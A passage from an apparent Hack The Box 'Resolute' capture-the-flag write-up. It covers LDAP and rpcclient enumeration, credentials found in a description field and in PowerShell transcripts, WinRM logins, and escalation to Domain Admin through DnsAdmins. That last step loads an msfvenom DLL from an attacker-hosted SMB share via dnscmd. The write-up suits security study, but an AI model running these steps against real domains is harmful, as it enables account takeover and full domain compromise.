objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=megabank,DC=local
dSCorePropagationData: 16010101000000.0Z

dn: CN=Fred Carr,CN=Users,DC=megabank,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Fred Carr
distinguishedName: CN=Fred Carr,CN=Users,DC=megabank,DC=local
instanceType: 4
whenCreated: 20191203212901.0Z
whenChanged: 20191203212901.0Z
uSNCreated: 102700
uSNChanged: 102704
name: Fred Carr
objectGUID:: lAcmvqWGjE6WRJqmW0P++Q==
userAccountControl: 512
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAaeAGU04VmrOsCGHWzRkAAA==
sAMAccountName: fred
sAMAccountType: 805306368
userPrincipalName: fred@megabank.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=megabank,DC=local
dSCorePropagationData: 16010101000000.0Z

dn: CN=Angela Perkins,CN=Users,DC=megabank,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Angela Perkins
distinguishedName: CN=Angela Perkins,CN=Users,DC=megabank,DC=local
instanceType: 4
whenCreated: 20191203212943.0Z
whenChanged: 20191203212943.0Z
uSNCreated: 102722
uSNChanged: 102726
name: Angela Perkins
objectGUID:: lMolSS/kTEmkg/g27Xw3Cw==
userAccountControl: 512
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAaeAGU04VmrOsCGHWzhkAAA==
sAMAccountName: angela
sAMAccountType: 805306368
userPrincipalName: angela@megabank.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=megabank,DC=local
dSCorePropagationData: 16010101000000.0Z

dn: CN=Felicia Carter,CN=Users,DC=megabank,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Felicia Carter
distinguishedName: CN=Felicia Carter,CN=Users,DC=megabank,DC=local
instanceType: 4
whenCreated: 20191203213053.0Z
whenChanged: 20191203213053.0Z
uSNCreated: 102744
uSNChanged: 102748
name: Felicia Carter
objectGUID:: AOi6CrnpjUOhIQWQAz82Tg==
userAccountControl: 512
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAaeAGU04VmrOsCGHWzxkAAA==
sAMAccountName: felicia
sAMAccountType: 805306368
userPrincipalName: felicia@megabank.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=megabank,DC=local
dSCorePropagationData: 16010101000000.0Z

dn: CN=Gustavo Pallieros,CN=Users,DC=megabank,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Gustavo Pallieros
distinguishedName: CN=Gustavo Pallieros,CN=Users,DC=megabank,DC=local
instanceType: 4
whenCreated: 20191203213142.0Z
whenChanged: 20191203213142.0Z
uSNCreated: 102766
uSNChanged: 102770
name: Gustavo Pallieros
objectGUID:: tc7cUcidD0CwhKRgd1OlQw==
userAccountControl: 512
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAaeAGU04VmrOsCGHW0BkAAA==
sAMAccountName: gustavo
sAMAccountType: 805306368
userPrincipalName: gustavo@megabank.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=megabank,DC=local
dSCorePropagationData: 16010101000000.0Z

dn: CN=Ulf Berg,CN=Users,DC=megabank,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Ulf Berg
distinguishedName: CN=Ulf Berg,CN=Users,DC=megabank,DC=local
instanceType: 4
whenCreated: 20191203213219.0Z
whenChanged: 20191203213220.0Z
uSNCreated: 102784
uSNChanged: 102788
name: Ulf Berg
objectGUID:: lxypMpJlw06yGw/QCXK7lw==
userAccountControl: 512
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAaeAGU04VmrOsCGHW0RkAAA==
sAMAccountName: ulf
sAMAccountType: 805306368
userPrincipalName: ulf@megabank.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=megabank,DC=local
dSCorePropagationData: 16010101000000.0Z

dn: CN=Stevie Gerrard,CN=Users,DC=megabank,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Stevie Gerrard
distinguishedName: CN=Stevie Gerrard,CN=Users,DC=megabank,DC=local
instanceType: 4
whenCreated: 20191203213313.0Z
whenChanged: 20191203213313.0Z
uSNCreated: 102794
uSNChanged: 102798
name: Stevie Gerrard
objectGUID:: cNhVNupy5U6xYh/b4OXEtA==
userAccountControl: 512
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAaeAGU04VmrOsCGHW0hkAAA==
sAMAccountName: stevie
sAMAccountType: 805306368
userPrincipalName: stevie@megabank.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=megabank,DC=local
dSCorePropagationData: 16010101000000.0Z

dn: CN=Claire Norman,CN=Users,DC=megabank,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Claire Norman
distinguishedName: CN=Claire Norman,CN=Users,DC=megabank,DC=local
instanceType: 4
whenCreated: 20191203213344.0Z
whenChanged: 20191203213344.0Z
uSNCreated: 102817
uSNChanged: 102821
name: Claire Norman
objectGUID:: wRiY2eNkWkuWN4vudCpGyA==
userAccountControl: 512
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAaeAGU04VmrOsCGHW0xkAAA==
sAMAccountName: claire
sAMAccountType: 805306368
userPrincipalName: claire@megabank.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=megabank,DC=local
dSCorePropagationData: 16010101000000.0Z

dn: CN=Paulo Alcobia,CN=Users,DC=megabank,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Paulo Alcobia
distinguishedName: CN=Paulo Alcobia,CN=Users,DC=megabank,DC=local
instanceType: 4
whenCreated: 20191203213446.0Z
whenChanged: 20191203213446.0Z
uSNCreated: 102840
uSNChanged: 102844
name: Paulo Alcobia
objectGUID:: SO8gmFRshUq1jIfdrbY8Ow==
userAccountControl: 512
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAaeAGU04VmrOsCGHW1BkAAA==
sAMAccountName: paulo
sAMAccountType: 805306368
userPrincipalName: paulo@megabank.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=megabank,DC=local
dSCorePropagationData: 16010101000000.0Z

dn: CN=Steve Rider,CN=Users,DC=megabank,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Steve Rider
distinguishedName: CN=Steve Rider,CN=Users,DC=megabank,DC=local
instanceType: 4
whenCreated: 20191203213525.0Z
whenChanged: 20191203213525.0Z
uSNCreated: 102846
uSNChanged: 102850
name: Steve Rider
objectGUID:: H8nxGjlEHUK2RPArEXf/lw==
userAccountControl: 512
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAaeAGU04VmrOsCGHW1RkAAA==
sAMAccountName: steve
sAMAccountType: 805306368
userPrincipalName: steve@megabank.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=megabank,DC=local
dSCorePropagationData: 16010101000000.0Z

dn: CN=Annette Nilsson,CN=Users,DC=megabank,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Annette Nilsson
distinguishedName: CN=Annette Nilsson,CN=Users,DC=megabank,DC=local
instanceType: 4
whenCreated: 20191203213655.0Z
whenChanged: 20191203213655.0Z
uSNCreated: 102884
uSNChanged: 102888
name: Annette Nilsson
objectGUID:: EcdWbLulEk62NOmrWiGS+A==
userAccountControl: 512
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAaeAGU04VmrOsCGHW1hkAAA==
sAMAccountName: annette
sAMAccountType: 805306368
userPrincipalName: annette@megabank.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=megabank,DC=local
dSCorePropagationData: 16010101000000.0Z

dn: CN=Annika Larson,CN=Users,DC=megabank,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Annika Larson
distinguishedName: CN=Annika Larson,CN=Users,DC=megabank,DC=local
instanceType: 4
whenCreated: 20191203213723.0Z
whenChanged: 20191203213723.0Z
uSNCreated: 102890
uSNChanged: 102894
name: Annika Larson
objectGUID:: 1pYutFFQdkSJGNmDjsAnDQ==
userAccountControl: 512
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAaeAGU04VmrOsCGHW1xkAAA==
sAMAccountName: annika
sAMAccountType: 805306368
userPrincipalName: annika@megabank.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=megabank,DC=local
dSCorePropagationData: 16010101000000.0Z

dn: CN=Per Olsson,CN=Users,DC=megabank,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Per Olsson
distinguishedName: CN=Per Olsson,CN=Users,DC=megabank,DC=local
instanceType: 4
whenCreated: 20191203213804.0Z
whenChanged: 20191203213812.0Z
uSNCreated: 102912
uSNChanged: 102916
name: Per Olsson
objectGUID:: VK6fEHrNL0mmrdODja31sg==
userAccountControl: 512
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAaeAGU04VmrOsCGHW2BkAAA==
sAMAccountName: per
sAMAccountType: 805306368
userPrincipalName: per@megabank.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=megabank,DC=local
dSCorePropagationData: 16010101000000.0Z

dn: CN=Claude Segal,CN=Users,DC=megabank,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Claude Segal
distinguishedName: CN=Claude Segal,CN=Users,DC=megabank,DC=local
instanceType: 4
whenCreated: 20191203213956.0Z
whenChanged: 20191203213956.0Z
uSNCreated: 102950
uSNChanged: 102954
name: Claude Segal
objectGUID:: PRxc7O3B9kyc78To47uMRw==
userAccountControl: 512
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAaeAGU04VmrOsCGHW2RkAAA==
sAMAccountName: claude
sAMAccountType: 805306368
userPrincipalName: claude@megabank.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=megabank,DC=local
dSCorePropagationData: 16010101000000.0Z
```

```text
dn: CN=Melanie Purkis,CN=Users,DC=megabank,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Melanie Purkis
distinguishedName: CN=Melanie Purkis,CN=Users,DC=megabank,DC=local
instanceType: 4
whenCreated: 20191204103845.0Z
whenChanged: 20200523160002.0Z
uSNCreated: 131130
memberOf: CN=Remote Management Users,CN=Builtin,DC=megabank,DC=local
uSNChanged: 148335
name: Melanie Purkis
objectGUID:: XYoyZXBbZk6QBuoYRsNkAg==
userAccountControl: 512
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAaeAGU04VmrOsCGHWdScAAA==
sAMAccountName: melanie
sAMAccountType: 805306368
userPrincipalName: melanie@megabank.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=megabank,DC=local
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 132347185209935050
```

Hmmm...the user `melanie` is a member of the `Remote Management Users` group. This looks like another good target for gaining access.

```text
dn: CN=Zach Armstrong,CN=Users,DC=megabank,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Zach Armstrong
distinguishedName: CN=Zach Armstrong,CN=Users,DC=megabank,DC=local
instanceType: 4
whenCreated: 20191204103927.0Z
whenChanged: 20191204103927.0Z
uSNCreated: 131140
uSNChanged: 131144
name: Zach Armstrong
objectGUID:: /epL3PoS202KohXoJETmDg==
userAccountControl: 512
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAaeAGU04VmrOsCGHWdicAAA==
sAMAccountName: zach
sAMAccountType: 805306368
userPrincipalName: zach@megabank.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=megabank,DC=local
dSCorePropagationData: 16010101000000.0Z

dn: CN=Simon Faraday,CN=Users,DC=megabank,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Simon Faraday
distinguishedName: CN=Simon Faraday,CN=Users,DC=megabank,DC=local
instanceType: 4
whenCreated: 20191204103958.0Z
whenChanged: 20191204103958.0Z
uSNCreated: 131146
uSNChanged: 131150
name: Simon Faraday
objectGUID:: 6prPh1XLLkq6xAeT3rWI6w==
userAccountControl: 512
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAaeAGU04VmrOsCGHWdycAAA==
sAMAccountName: simon
sAMAccountType: 805306368
userPrincipalName: simon@megabank.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=megabank,DC=local
dSCorePropagationData: 16010101000000.0Z

dn: CN=Naoki Yamamoto,CN=Users,DC=megabank,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Naoki Yamamoto
distinguishedName: CN=Naoki Yamamoto,CN=Users,DC=megabank,DC=local
instanceType: 4
whenCreated: 20191204104044.0Z
whenChanged: 20191204104044.0Z
uSNCreated: 131152
uSNChanged: 131156
name: Naoki Yamamoto
objectGUID:: gABq//UsGkiGCoHHGQPA3Q==
userAccountControl: 512
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAaeAGU04VmrOsCGHWeCcAAA==
sAMAccountName: naoki
sAMAccountType: 805306368
userPrincipalName: naoki@megabank.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=megabank,DC=local
dSCorePropagationData: 16010101000000.0Z
```

### Interesting users/groups found

There was no interesting information in the other users, but I made a list of their usernames, just in case. So far the interesting users were:

* **marko**: has a potential password in his description field `Welcome123!`.
* **melanie**: a member of the `Remote Management Users` group.
* **ryan**: a member of the `Contractors` group, which is also a member of both the `Remote Management Users` and the `DnsAdmins` group.

### rpcclient

Next I used `rpcclient` to validate the information I found through LDAP using the `enumdomusers` and `queryuser <rid>` RPC commands.

```text
zweilos@kalimaa:~/htb/resolute$ rpcclient -U "" -N 10.10.10.169

rpcclient $> enumdomusers

user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[ryan] rid:[0x451]
user:[marko] rid:[0x457]
user:[sunita] rid:[0x19c9]
user:[abigail] rid:[0x19ca]
user:[marcus] rid:[0x19cb]
user:[sally] rid:[0x19cc]
user:[fred] rid:[0x19cd]
user:[angela] rid:[0x19ce]
user:[felicia] rid:[0x19cf]
user:[gustavo] rid:[0x19d0]
user:[ulf] rid:[0x19d1]
user:[stevie] rid:[0x19d2]
user:[claire] rid:[0x19d3]
user:[paulo] rid:[0x19d4]
user:[steve] rid:[0x19d5]
user:[annette] rid:[0x19d6]
user:[annika] rid:[0x19d7]
user:[per] rid:[0x19d8]
user:[claude] rid:[0x19db]
user:[melanie] rid:[0x2775]
user:[zach] rid:[0x2776]
user:[simon] rid:[0x2777]
user:[naoki] rid:[0x2778]

rpcclient $> queryuser 0x457

        User Name   :   marko
        Full Name   :   Marko Novak
        Home Drive  :
        Dir Drive   :
        Profile Path:
        Logon Script:
        Description :   Account created. Password set to Welcome123!
        Workstations:
        Comment     :
        Remote Dial :
        Logon Time               :      Wed, 31 Dec 1969 19:00:00 EST
        Logoff Time              :      Wed, 31 Dec 1969 19:00:00 EST
        Kickoff Time             :      Wed, 13 Sep 30828 22:48:05 EDT
        Password last set Time   :      Fri, 27 Sep 2019 09:17:15 EDT
        Password can change Time :      Sat, 28 Sep 2019 09:17:15 EDT
        Password must change Time:      Wed, 13 Sep 30828 22:48:05 EDT
        unknown_2[0..31]...
        user_rid :      0x457
        group_rid:      0x201
        acb_info :      0x00000210
        fields_present: 0x00ffffff
        logon_divs:     168
        bad_password_count:     0x00000000
        logon_count:    0x00000000
        padding1[0..7]...
        logon_hrs[0..21]...
```

Hmm...so the user `marko` has no home drive or profile path, and has never logged on. Maybe the user was only created on the domain but has no local account? 

## Initial Foothold

I tried using the creds for `marko` to enumerate SMB but got nothing back. I then tested his password with the users `ryan` and `melanie` and was able to get a share listing with `melanie:Welcome123!`Thank you password reuse!

```text
zweilos@kalimaa:~/htb/resolute$ smbclient -U melanie -L //10.10.10.169/
Enter WORKGROUP\melanie's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```

Next, I tried connecting to each of the shares. We only see the standard Windows domain shares, nothing out of the ordinary. Only `NETLOGON` and `SYSVOL` allowed `melanie` to log in, but neither contained anything useful. `SYSVOL` had more folders to browse through, but still nothing useful.

```text
zweilos@kalimaa:~/htb/resolute$ smbclient -U melanie //10.10.10.169/NETLOGON Welcome123!
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Sep 25 09:28:21 2019
  ..                                  D        0  Wed Sep 25 09:28:21 2019

                10340607 blocks of size 4096. 7555454 blocks available
```

## Road to User

Since `melanie` is a member of the `Remote Management Users` group, I tried to log in through Windows Remote Management using the `Evil-WinRM` tool, which can be found at [https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm).

```text
zweilos@kalimaa:~/htb/resolute$ evil-winrm -i 10.10.10.169 -u melanie -p 'Welcome123!'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint
```

I'm in!

```text
*Evil-WinRM* PS C:\Users\melanie\Documents> whoami /all

USER INFORMATION
----------------

User Name        SID
================ ===============================================
megabank\melanie S-1-5-21-1392959593-3013219662-3596683436-10101


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.

*Evil-WinRM* PS C:\Users\melanie\Desktop> cat user.txt
fc92144f24a8510dd36ac3aa890611ee
```

### user.txt

`whoami /all` didn't reveal any information that we didn't already know, so we will have to continue searching for useful things. I did find the user flag on `melanie`'s `\Desktop` though!

## Path to Power \(Gaining Administrator Access\)

### Enumeration as User - melanie

Since we noticed the user `ryan` earlier had access to the `DnsAdmin` group, I figured that it would be good to search for any files with his name in it. Since we are in a Powershell environment, `Get-ChildItem` is the command we want. `ls` is a common alias to that command which is why the below command works. `-R` Makes the search recursive, `-Hidden` includes hidden files in the search, `-EA SilentlyContinue` is shorthand for `-ErrorAction Silently Continue` and specifies that we do not want to see any errors that result \(such as files or directories that we don't have access to\). `Select-String` is similar to the Linux `grep` command.

```csharp
*Evil-WinRM* PS C:\> ls -R -Hidden -EA SilentlyContinue | select-string ryan

PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt:4:Username: MEGABANK\ryan
PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt:5:RunAs User: MEGABANK\ryan
PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt:29:PS>ParameterBinding(Out-String): name="InputObject"; value="PS megabank\ryan@RESOLUTE Documents> "
PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt:30:PS megabank\ryan@RESOLUTE Documents>
PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt:35:>> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt:43:Username: MEGABANK\ryan
PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt:44:RunAs User: MEGABANK\ryan
PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt:64:+ cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt:70:+ cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt:77:Username: MEGABANK\ryan
PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt:78:RunAs User: MEGABANK\ryan
```

It seems as if the user `ryan` used the `net use` command to connect to an external share, leaving his credentials `ryan:Serv3r4Admin4cc123!` in the Powershell transcripts! We can now try to login as `ryan` using `Evil-WinRM` since he is also a member of the `Remote Management Users` group.

```bash
zweilos@kalimaa:~/htb/resolute$ evil-winrm -u ryan -p 'Serv3r4Admin4cc123!' -i 10.10.10.169

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint
```

### User \#2 - ryan

```text
*Evil-WinRM* PS C:\Users\ryan\Documents> whoami /all

USER INFORMATION
----------------

User Name     SID
============= ==============================================
megabank\ryan S-1-5-21-1392959593-3013219662-3596683436-1105


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes
========================================== ================ ============================================== ===============================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
MEGABANK\Contractors                       Group            S-1-5-21-1392959593-3013219662-3596683436-1103 Mandatory group, Enabled by default, Enabled group
MEGABANK\DnsAdmins                         Alias            S-1-5-21-1392959593-3013219662-3596683436-1101 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
*Evil-WinRM* PS C:\Users\ryan\Documents>
```

### Privilege escalation - DnsAdmins

Next I did a little research to see if the `DnsAdmins` group had any known privilege escalation routes, and found this interesting article describing how to escalate privileges by doing dll injection: [https://www.abhizer.com/windows-privilege-escalation-dnsadmin-to-domaincontroller/](https://www.abhizer.com/windows-privilege-escalation-dnsadmin-to-domaincontroller/). The author lists the steps to accomplish this as:

1. Making a dll payload that sends a reverse shell back to our machine with msfvenom.
2. Serving it using SMB Server to make it available to the Windows machine.
3. Importing that dll in the DNS Server.
4. Restarting the DNS Server so that it loads the dll file.

In my case, I was not able to get the dll injection to provide a reverse shell, so I came up with another route. I did use `msfvenom` to craft my dll to inject, but since the reverse shell payload failed, I decided to simply promote my current user account to `Domain Admin`.

Since we need to run a command to grant our user `Domain Admin` privileges we need to use the `windows/x64/exec` module. _\(Making sure to choose the right architecture. This machine is x64.\)_ The command `net group "domain admins" ryan /add /domain` will add the user `ryan` to the `domain admins` group.

```text
zweilos@kalimaa:~/htb/resolute$ msfvenom -p windows/x64/exec cmd='net group "domain admins" ryan /add /domain' --platform windows -f dll > ~/dns.dll

[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 311 bytes
Final size of dll file: 5120 bytes
```

#### Creating an SMB share from linux

I then hosted my dll on an SMB share so I could access it from the Windows machine without transferring it fand storing it on the remote disk. This is useful for loading executables directly into memory to bypass AV. The Impacket python module library has an example smbserver that is ready-made to this. I created a share named `SHARE` from my local user's home directory with `sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -debug SHARE ~/`

After logging back in as `ryan` with `Evil-WinRM`,

```text
zweilos@kalimaa:~/htb/resolute$ evil-winrm -u ryan -p 'Serv3r4Admin4cc123!' -i 10.10.10.169

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint
```

I used the `dnscmd.exe` program to interact with the DNS service and telling it to load my crafted dll from the remote share.

```text
*Evil-WinRM* PS C:\Users\ryan\Documents> dnscmd.exe RESOLUTE /config /serverlevelplugindll \\10.10.14.253\SHARE\dns.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```

According to the article, you next have to stop and restart the DNS service. You can do this using `sc.exe`_\(Don't just type `sc` as this is an alias for `Set-Content` in Powershell and will not work.\)_

```text
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe stop dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe start dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 1008
        FLAGS              :
```

Back at my SMB server, I saw the incoming connection from the `RESOLUTE` machine. _The dll was only retrieved when the DNS service was restarted, so don't worry if you don't see the request for the file when you run the earlier command._

```text
zweilos@kalimaa:/usr/bin$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -debug SHARE ~/
Impacket v0.9.22.dev1+20200520.120526.3f1e7ddd - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.169,52825)
[*] AUTHENTICATE_MESSAGE (MEGABANK\RESOLUTE$,RESOLUTE)
[*] User RESOLUTE\RESOLUTE$ authenticated successfully
[*] RESOLUTE$::MEGABANK:4141414141414141:b7cf9e97aaa2dc6eb6c445bfd31b78c0:010100000000000080dc5b96b140d601f055aec715c614f90000000001001000730066004e005600480079007a00620003001000730066004e005600480079007a00620002001000420074004e006b004b0047007400760004001000420074004e006b004b004700740076000700080080dc5b96b140d60106000400020000000800300030000000000000000000000000400000ec955b51be4dc45f746b5b6c2c304b5c83f6fde057b51098f9837f196eb5368e0a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310034002e003200350033000000000000000000
[*] Disconnecting Share(1:SHARE)
[*] Handle: 'ConnectionResetError' object is not subscriptable
[*] Closing down connection (10.10.10.169,52825)
[*] Remaining connections []
```

In order for the new permissions to take effect I had to log out of the user and log back in.

```text
*Evil-WinRM* PS C:\Users\ryan\Documents> exit

Info: Exiting with code 0

zweilos@kalimaa:~/htb/resolute$ evil-winrm -u ryan -p 'Serv3r4Admin4cc123!' -i 10.10.10.169

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint
```

### Domain Admin

After logging out and back in, I verified that the user `ryan` was indeed a member of the `Domain Admins` group and had the right privileges.

```text
*Evil-WinRM* PS C:\Users\ryan\Documents> whoami /all

USER INFORMATION
----------------

User Name     SID
============= ==============================================
megabank\ryan S-1-5-21-1392959593-3013219662-3596683436-1105


GROUP INFORMATION
-----------------

Group Name                                      Type             SID                                            Attributes
=============================================== ================ ============================================== ===============================================================
Everyone                                        Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                                   Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access      Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                          Alias            S-1-5-32-544                                   Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Remote Management Users                 Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                            Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users                Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
